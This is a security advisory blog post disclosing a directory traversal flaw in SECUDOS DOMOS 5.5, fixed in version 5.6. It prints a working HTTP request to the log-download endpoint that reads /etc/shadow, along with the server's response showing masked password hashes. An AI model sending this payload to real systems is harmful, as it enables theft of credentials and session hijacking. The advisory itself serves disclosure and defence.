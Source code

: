 ```yaml
---
layout: post
title: "CVE-2019-xxxx: Directory Traversal in DOMOS"
date:   2019-11-01 14:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: SECUDOS GmbH
- Product: DOMOS
- Version: 5.5
- Vulnerability: Directory Traversal
- Fixed Version: 5.6

# Background

DOMOS is an own and hardened operating system of SCUDOS GmbH. The operating system is used as a platform by several applications. It also offers a web interface for the administration of operating system settings.

# Issue Description

While analyzing the implementation of the DOMOS web interface, one directory traversal vulnerability has been identified, which can be exploited in order to read session_id´s from other registered users and this can lead to a session hijacking of those users. This vulnerability can be exploited by authenticated attackers with access to the web interface.

Please consider the following complete HTTP-Request:

__HTTP-Request__

~~~ http
GET /page/sl_logdl?dcfct=DCMlog.download_log&dbkey%3Asyslog.rlog=/etc/shadow HTTP/1.1

Host: 10.10.10.1:10000
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Falkon/3.0.1 Chrome/69.0.3497.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,
image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: de-DE,de;q=0.8
Cookie: L=german; S=WdylJWgYQfqXVu1VkvBP9pwxBdh91bhDWB87eB5h;
session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611
~~~

The following HTTP response include the password hashes from the /etc/shadow:

__HTTP-Request__

~~~ http
HTTP/1.1 200 OK

Server: nginx/1.9.14
Date: Thu, 24 Jan 2019 11:48:50 GMT
Content-Type: application/data
Content-Length: 870
Connection: close
Last-Modified: Thu, 24 Jan 2019 11:48:50 GMT
Content-Disposition: shadow; filename="shadow"
Set-Cookie: session_id=09bced960d7c7bb0cc15d28c7128b5bc86e7c611;
expires=Fri, 25 Jan 2019 04:27:50 GMT; httponly; Path=/; secure
Strict-Transport-Security: max-age=15768000
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Permitted-Cross-Domain-Policies: master-only

root:$1$xxxxxxxxxxx:17919:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
...[SNIP]...
~~~

# CVE

[CVE-2019-xxxx](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-xxxx)

# CVSSv3 Base Score

CVSS Base Score: __6.5__

CVSS:3.0/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)
Torsten Löbner of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
